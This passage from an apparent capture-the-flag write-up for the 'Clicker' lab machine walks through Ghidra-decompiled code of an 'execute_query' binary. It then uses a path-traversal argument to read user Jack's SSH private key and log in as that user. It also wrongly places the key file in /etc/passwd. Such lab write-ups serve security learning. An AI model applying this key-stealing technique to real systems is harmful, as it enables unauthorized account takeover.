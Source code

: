 ```cpp
      local_28 = 0;
      sVar4 = strlen((char *)&local_78);
      sVar5 = strlen(pcVar3);
      pcVar3 = (char *)calloc(sVar5 + sVar4 + 1,1);
      strcat(pcVar3,(char *)&local_78);
      strcat(pcVar3,__dest);
      system(pcVar3);
    }
    else {
      puts("File not readable or not found");
    }
    uVar2 = 0;
  }
LAB_001015e1:
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

- Analyzing with Ghidra the code provided, we found ...

```cpp
   else {
      puts("File not readable or not found");
    }
```

- ... that is executed if is provided any number as argument if not is in range 0-4. I mean something like this:

```bash
$: ./execute_query 0
$: ./execute_query 1
$: ./execute_query 2
...
$: ./execute_query 4
```

- So probably if we try with execute `execute_query` with any number *(**int** or **float**)* like 5 or 6.2415 or 555.01, etc..., as argument and then the file which we want read, we can read the `id_rsa` file of Jack user that is in `/etc/passwd`.

```bash
www-data@clicker:/opt/manage$ ./execute_query 5.2 ../.ssh/id_rsa
```

- This works because the PATH where is executed the binary is from `/home/jack/queries`

- So let's connect via SSH with `id_rsa` file:

```bash
chmod 0600 id_rsa
ssh -i id_rsa jack@clicker.htb
```
